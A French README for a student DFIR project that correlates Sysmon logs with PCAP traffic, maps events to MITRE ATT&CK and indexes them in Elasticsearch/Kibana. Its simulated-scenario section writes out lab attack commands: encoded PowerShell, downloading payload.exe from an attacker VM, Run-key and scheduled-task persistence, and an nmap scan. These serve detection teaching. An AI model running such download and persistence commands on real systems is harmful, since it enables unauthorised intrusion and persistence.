

#  DFIR Correlation — Sysmon & PCAP

Pipeline DFIR développé en **Python** permettant d'analyser et de corréler des événements **Windows Sysmon** avec du trafic réseau **PCAP** afin de reconstruire des activités suspectes, enrichir les événements avec des informations **MITRE ATT&CK**, calculer un **score de suspicion** et centraliser les résultats dans **Elasticsearch / Kibana**.

Le projet a été développé et testé dans un laboratoire virtualisé contrôlé.

---

##  Objectif du projet

Lors d'une investigation DFIR, une seule source de données ne fournit généralement pas toute la visibilité nécessaire.

Les événements Sysmon permettent d'observer l'activité de l'hôte Windows :

- création de processus ;
- lignes de commande ;
- connexions réseau ;
- création de fichiers ;
- modifications du registre ;
- relations parent/enfant entre processus.

Les captures PCAP apportent quant à elles une visibilité sur les communications réseau.

L'objectif du projet est donc de combiner ces deux sources :

```text
Sysmon XML ──→ Parsing ──┐
                         │
                         ├──→ Corrélation ──→ Enrichissement ──→ Elasticsearch ──→ Kibana
                         │
PCAP ────────→ Parsing ──┘
```

Le pipeline permet notamment de :

- normaliser les données Sysmon et PCAP ;
- rechercher des relations temporelles et réseau entre les événements ;
- reconstruire certaines relations entre processus ;
- identifier des comportements suspects ;
- associer les événements à des techniques MITRE ATT&CK ;
- calculer un score de suspicion ;
- centraliser les résultats dans Elasticsearch ;
- analyser les résultats depuis Kibana.

---

#  Architecture du laboratoire

Le laboratoire repose sur **VirtualBox** et un réseau privé :

```text
10.0.3.0/24
```

Il contient trois machines virtuelles principales.

| Machine | Adresse IP | Rôle | Technologies principales |
|---|---|---|---|
| Windows 10 | `10.0.3.4` | Machine victime | Sysmon, Wireshark |
| Kali Linux | `10.0.3.5` | Machine attaquante | Nmap, Python HTTP Server |
| Ubuntu Server | `10.0.3.20` | SOC / Analyse | Elasticsearch, Kibana, Python |

L'adresse du serveur Ubuntu est configurée de manière **statique**.

### Architecture



Le laboratoire permet de générer des activités contrôlées, puis de récupérer les traces produites côté endpoint et réseau pour les analyser avec le pipeline DFIR.

---

# 🔬 Scénarios simulés

Plusieurs scénarios ont été exécutés dans le laboratoire afin de générer des traces différentes dans Sysmon et/ou le PCAP.

## 1. PowerShell encodé

**Tactique :** Execution  
**Technique MITRE ATT&CK :** `T1059.001 — PowerShell`

Exemple :

```powershell
$cmd = "Write-Output 'test malveillant simule'"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($cmd)
$encoded = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encoded
```

### Traces recherchées

- création de `powershell.exe` ;
- présence de `-EncodedCommand` dans la ligne de commande ;
- événement Sysmon associé à la création du processus.

Ce scénario est principalement visible côté **Sysmon** et ne nécessite pas de trafic réseau.

---

## 2. Téléchargement de fichier

**Tactique :** Command and Control  
**Technique MITRE ATT&CK :** `T1105 — Ingress Tool Transfer`

Un serveur HTTP est lancé depuis Kali :

```bash
echo "faux payload" > payload.exe
python3 -m http.server 8000
```

La machine Windows récupère ensuite le fichier :

```powershell
Invoke-WebRequest -Uri http://10.0.3.5:8000/payload.exe -OutFile C:\Users\Public\payload.exe
```

### Traces recherchées

**Sysmon :**

- connexion réseau de PowerShell ;
- adresse IP de destination ;
- port `8000` ;
- création du fichier `payload.exe`.

**PCAP :**

- connexion Windows → Kali ;
- requête HTTP ;
- transfert du fichier.

Ce scénario est particulièrement intéressant pour la **corrélation Sysmon ↔ PCAP**.

---

## 3. Persistance via Registry Run Key

**Tactique :** Persistence  
**Technique MITRE ATT&CK :** `T1547.001 — Registry Run Keys / Startup Folder`

Exemple :

```powershell
New-ItemProperty `
  -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" `
  -Name "UpdateCheck" `
  -Value "C:\Users\Public\payload.exe" `
  -PropertyType String
```

### Traces recherchées

- modification du registre ;
- clé `Run` ;
- valeur `UpdateCheck` ;
- référence à `payload.exe`.

Ce scénario est principalement visible dans les événements **Sysmon**.

---

## 4. Persistance via tâche planifiée

**Tactique :** Persistence  
**Technique MITRE ATT&CK :** `T1053.005 — Scheduled Task/Job: Scheduled Task`

Exemple :

```cmd
schtasks /create /tn "SystemUpdate" /tr "C:\Users\Public\payload.exe" /sc onlogon /ru System
```

### Traces recherchées

- exécution de `schtasks.exe` ;
- nom de tâche `SystemUpdate` ;
- utilisation de `/ru System` ;
- référence à `payload.exe`.

---

## 5. Network Service Discovery avec Nmap

**Tactique :** Discovery  
**Technique MITRE ATT&CK :** `T1046 — Network Service Discovery`

Depuis Kali :

```bash
nmap -sV -p 1-1000 10.0.3.4
```

### Traces recherchées

Le scan est principalement observable dans le **PCAP** :

- nombreux paquets provenant de la même source ;
- ports de destination multiples ;
- activité concentrée dans une courte période ;
- réponses TCP de la machine Windows.

Ce scénario illustre pourquoi les données réseau sont utiles en complément de la télémétrie endpoint.

> **Note :** la logique de détection de T1046 doit être considérée comme expérimentale. Une détection fiable d'un scan doit prendre en compte le nombre de ports ciblés, la source, la destination et une fenêtre temporelle, plutôt que de considérer chaque paquet réseau comme un événement T1046.

La description détaillée des scénarios est disponible dans :

```text
docs/scenarios.md
```

---

#  Pipeline DFIR

Le projet suit plusieurs étapes.

```text
              WINDOWS 10
                  │
               Sysmon
                  │
                  ▼
           Sysmon-log.xml
                  │
                  ▼
         sysmon_parser.py
                  │
                  ▼
          Sysmon-log.json
                  │
                  │
                  ├─────────────┐
                  │             │
                                ▼
KALI / NETWORK             correlator.py
      │                         │
   Wireshark                     │
      │                         │
      ▼                         │
wireshark-log.pcap              │
      │                         │
      ▼                         │
pcap_parser.py                  │
      │                         │
      ▼                         │
wireshark-log.json ─────────────┘
                                │
                                ▼
                        correlated.json
                                │
                                ▼
                       elastic_client.py
                                │
                                ▼
                         Elasticsearch
                                │
                                ▼
                             Kibana
```

---

#  Composants Python

## `sysmon_parser.py`

Transforme les événements Sysmon XML en données JSON structurées.

Il extrait notamment :

```text
event_id
timestamp
pid
ppid
image
command_line
dest_ip
target_object
```

---

## `pcap_parser.py`

Analyse le fichier PCAP et transforme les paquets utiles en événements JSON normalisés.

Ces données peuvent ensuite être utilisées par le moteur de corrélation.

---

## `correlator.py`

C'est le cœur analytique du projet.

Il reçoit :

```text
Sysmon JSON
     +
PCAP JSON
```

puis cherche des relations entre les différentes observations.

Le moteur prend notamment en compte :

- timestamps ;
- adresses IP ;
- PID ;
- PPID ;
- relations parent/enfant ;
- processus ;
- commandes ;
- activité réseau.

Il ajoute également des informations d'analyse telles que :

```text
MITRE ATT&CK
Suspicion Score
Severity
Correlation Status
```

Le résultat est enregistré dans :

```text
data/normalized/correlated.json
```

---

## `elastic_client.py`

Envoie les résultats du moteur de corrélation vers **Elasticsearch**.

Les credentials Elasticsearch sont récupérés depuis un fichier `.env` local afin d'éviter de stocker des secrets directement dans le code source.

---

#  Structure du projet

```text
projet-correlation/
│
├── data/
│   ├── pcap/
│   │   └── wireshark-log.pcap
│   │
│   ├── sysmon/
│   │   └── Sysmon-log.xml
│   │
│   └── normalized/
│       ├── wireshark-log.json
│       ├── Sysmon-log.json
│       └── correlated.json
│
├── docs/
│   ├── architecture.png
│   ├── scenarios.md
│   └── kibana-dashboard.png
│
├── src/
│   ├── pcap_parser.py
│   ├── sysmon_parser.py
│   ├── correlator.py
│   └── elastic_client.py
│
├── .env.example
├── .gitignore
├── requirements.txt
├── LICENSE
└── README.md
```

---

#  Technologies utilisées

### DFIR / Sécurité

- Sysmon
- Wireshark
- PCAP
- MITRE ATT&CK
- Nmap

### Développement

- Python 3
- lxml
- Scapy
- python-dotenv
- Elasticsearch Python Client

### SIEM / Analyse

- Elasticsearch
- Kibana

### Infrastructure

- VirtualBox
- Windows 10
- Kali Linux
- Ubuntu Server

### Versioning

- Git
- GitHub

---

#  Installation

## 1. Cloner le repository

```bash
git clone https://github.com/Hamdaoui-Abdu/projet-correlation.git
cd projet-correlation
```

---

## 2. Créer un environnement virtuel Python

Linux :

```bash
python3 -m venv venv
source venv/bin/activate
```

---

## 3. Installer les dépendances

```bash
pip install -r requirements.txt
```

Les principales dépendances sont :

```text
lxml
scapy
elasticsearch
python-dotenv
```

---

#  Configuration Elasticsearch

Les credentials Elasticsearch ne doivent **jamais être stockés directement dans le code Python**.

Le repository contient :

```text
.env.example
```

Créez votre propre fichier :

```bash
cp .env.example .env
```

Puis adaptez les valeurs :

```env
ELASTIC_URL=https://localhost:9200
ELASTIC_USER=elastic
ELASTIC_PASSWORD=CHANGE_ME
ELASTIC_CA=/etc/elasticsearch/certs/http_ca.crt
ELASTIC_INDEX=dfir-events
```

Le fichier `.env` est exclu du repository grâce au `.gitignore`.

> Ne publiez jamais vos mots de passe, tokens, clés privées ou certificats privés dans un repository public.

---

#  Utilisation

## Étape 1 — Parser Sysmon

À partir de la racine du projet :

```bash
python src/sysmon_parser.py \
  --input data/sysmon/Sysmon-log.xml \
  --output data/normalized/Sysmon-log.json
```

Résultat :

```text
data/normalized/Sysmon-log.json
```

---

## Étape 2 — Parser le PCAP

```bash
python src/pcap_parser.py \
  --input data/pcap/wireshark-log.pcap \
  --output data/normalized/wireshark-log.json
```

Résultat :

```text
data/normalized/wireshark-log.json
```

---

## Étape 3 — Corréler Sysmon et PCAP

```bash
python src/correlator.py \
  --sysmon data/normalized/Sysmon-log.json \
  --pcap data/normalized/wireshark-log.json \
  --output data/normalized/correlated.json
```

Résultat :

```text
data/normalized/correlated.json
```

Ce fichier contient les événements enrichis et les résultats produits par le moteur de corrélation.

---

#  Elasticsearch

Assurez-vous qu'Elasticsearch fonctionne :

```bash
sudo systemctl start elasticsearch
sudo systemctl status elasticsearch
```

Vous pouvez tester le service local :

```bash
curl -k -u elastic https://localhost:9200
```

---

## Indexation des résultats

Après avoir configuré `.env`, envoyez les événements :

```bash
python src/elastic_client.py \
  --input data/normalized/correlated.json \
  --index dfir-events
```

Le pipeline crée/alimente alors l'index :

```text
dfir-events
```

---

## Vérifier les données

Dans **Kibana → Dev Tools** :

```http
GET /dfir-events/_count
```

Pour afficher quelques événements :

```http
GET /dfir-events/_search
{
  "size": 10,
  "query": {
    "match_all": {}
  }
}
```

---

#  Kibana

Kibana est utilisé pour explorer et visualiser les événements générés par le pipeline.

Démarrage :

```bash
sudo systemctl start kibana
sudo systemctl status kibana
```

Interface locale :

```text
http://localhost:5601
```

Créez ensuite un **Data View** correspondant à :

```text
dfir-events
```

avec :

```text
@timestamp
```

comme champ temporel lorsque celui-ci est disponible dans les documents.

---

#  Dashboard DFIR

Le dashboard peut notamment présenter :

- timeline des activités suspectes ;
- distribution des scores de suspicion ;
- niveaux de sévérité ;
- processus suspects ;
- activité réseau ;
- techniques MITRE ATT&CK ;
- événements Sysmon ;
- événements PCAP ;
- événements corrélés.

Exemples de champs utiles :

```text
@timestamp
severity
suspicion_score
mitre_technique_id
mitre_technique_name
command_line
sysmon_process_name
sysmon_command_line
src_ip
dst_ip
correlation_status
```

Les noms disponibles dépendent du type d'événement et de la structure produite par le pipeline.

### Exemple de filtre KQL

Afficher les événements suspects :

```text
suspicion_score > 0
```

Afficher les événements associés à MITRE ATT&CK :

```text
mitre_technique_id: *
```

Filtrer une technique particulière :

```text
mitre_technique_id: "T1059.001"
```

---

#  MITRE ATT&CK

Les scénarios du laboratoire sont associés aux techniques suivantes :

| Scénario | Technique | ID |
|---|---|---|
| PowerShell encodé | PowerShell | `T1059.001` |
| Téléchargement de fichier | Ingress Tool Transfer | `T1105` |
| Registry Run Key | Registry Run Keys / Startup Folder | `T1547.001` |
| Tâche planifiée | Scheduled Task/Job: Scheduled Task | `T1053.005` |
| Scan Nmap | Network Service Discovery | `T1046` |

Le mapping MITRE permet d'apporter du contexte aux événements techniques et de les rapprocher de comportements utilisés lors d'attaques réelles.

---

#  Exemple de chaîne d'investigation

Un scénario réseau peut produire une chaîne similaire à :

```text
powershell.exe
      │
      ├── Invoke-WebRequest
      │
      ▼
Connexion réseau
10.0.3.4 → 10.0.3.5:8000
      │
      ▼
HTTP GET /payload.exe
      │
      ▼
Création du fichier
C:\Users\Public\payload.exe
      │
      ▼
Corrélation Sysmon + PCAP
      │
      ▼
T1105 — Ingress Tool Transfer
      │
      ▼
Suspicion Score / Severity
      │
      ▼
Elasticsearch → Kibana
```

L'objectif n'est donc pas uniquement de stocker des logs, mais de **transformer plusieurs traces techniques en événements d'investigation plus facilement exploitables**.

---

#  Dataset

Les données présentes dans ce repository ont été générées dans un **laboratoire VirtualBox contrôlé** à des fins pédagogiques.

Elles ne proviennent pas d'un environnement de production.

Le dataset peut comprendre :

```text
Sysmon XML
PCAP
Sysmon JSON normalisé
PCAP JSON normalisé
Résultats de corrélation JSON
```

Cela permet de tester le pipeline sans devoir reproduire immédiatement l'intégralité du laboratoire.

---

#  Limites et améliorations futures

Le projet est avant tout un prototype DFIR pédagogique.

Plusieurs améliorations sont possibles :

- amélioration des règles de corrélation temporelle ;
- détection comportementale plus robuste des scans réseau ;
- meilleure corrélation PID/processus/réseau ;
- normalisation uniforme des champs Elasticsearch ;
- réduction des faux positifs ;
- enrichissement MITRE ATT&CK ;
- ajout d'IOC ;
- règles de détection configurables ;
- dashboards Kibana supplémentaires ;
- tests automatisés ;
- prise en charge de nouveaux Event IDs Sysmon ;
- support de plusieurs captures PCAP ;
- génération automatique d'une timeline d'incident.

---

#  Usage éducatif et éthique

Ce projet est développé uniquement à des fins :

- pédagogiques ;
- DFIR ;
- Blue Team ;
- détection ;
- investigation ;
- recherche en cybersécurité dans des environnements autorisés.

Les scénarios présentés ont été réalisés dans un **laboratoire virtualisé contrôlé**.

N'utilisez pas les techniques ou outils présentés contre des systèmes, réseaux ou équipements sans autorisation explicite.

---

#  Auteurs

Projet réalisé en binôme dans le cadre d'un travail pratique autour de la **Digital Forensics & Incident Response (DFIR)**, de la corrélation d'événements et de l'analyse de sécurité.
Réalisé par : Laaroussi Imane et Hamdaoui Abdelbari .

---

##  À propos

Ce projet explore comment combiner la **télémétrie endpoint Sysmon** et la **visibilité réseau PCAP** afin de construire un pipeline DFIR capable de transformer des données brutes en informations exploitables pour une investigation.

```text
Endpoint + Network + Correlation + MITRE ATT&CK + SIEM
                         ↓
                DFIR Investigation
```
